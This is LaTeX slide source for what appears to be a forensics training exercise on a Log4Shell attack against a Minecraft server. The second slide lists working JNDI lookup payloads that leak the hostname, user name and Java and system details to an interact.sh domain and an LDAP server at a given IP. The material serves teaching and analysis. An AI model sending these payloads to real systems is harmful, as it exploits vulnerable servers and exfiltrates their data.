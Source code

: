 \begin{frame}
    \frametitle{Exercise 2: In-depth analysis 1/2}
        \begin{enumerate}
        \item Identify {\color{red}{\bf Attacker}} connection to the {\color{blue}{\bf Minecraft Server}}
        \item Search for {\bf \emph{jndi}} string using Wireshark packet string search, and extract all the payloads
        \item Analyze JNDI payloads and their purpose
        \begin{itemize}
        	\item DNS
        	\item LDAP
        \end{itemize}        
        \item Describe the information the {\color{red}{\bf Attacker}} leaked information via DNS/LDAP requests
    \end{enumerate}
    \begin{center}Exercise duration: 20 minutes\end{center}
\end{frame}

\begin{frame}[fragile]
    \frametitle{Exercise 2: In-depth analysis 2/2}
   {\bf DNS payloads}
    \begin{lstlisting}[basicstyle=\tiny\color{black}]
${jndi:dns://hostname-${hostName}.c8nfads2vtc0000srss0grk4fxryyyyyr.interact.sh}
${jndi:dns://user-${env:USER}.c8nfads2vtc0000srss0grk4fxryyyyyr.interact.sh}
${jndi:dns://version-${sys:java.version}.c8nfads2vtc0000srss0grk4fxryyyyyr.interact.sh}
    \end{lstlisting}
   {\bf LDAP payloads}
	\begin{lstlisting}
${jndi:ldap://18.212.74.161/${java:version}}
${jndi:ldap://18.212.74.161/${java:os}}
${jndi:ldap://18.212.74.161/${java:vm}}
${jndi:ldap://18.212.74.161/${java:locale}}
${jndi:ldap://18.212.74.161/${java:hw}}
${jndi:ldap://18.212.74.161:389/1svssl}
    \end{lstlisting}
\end{frame}

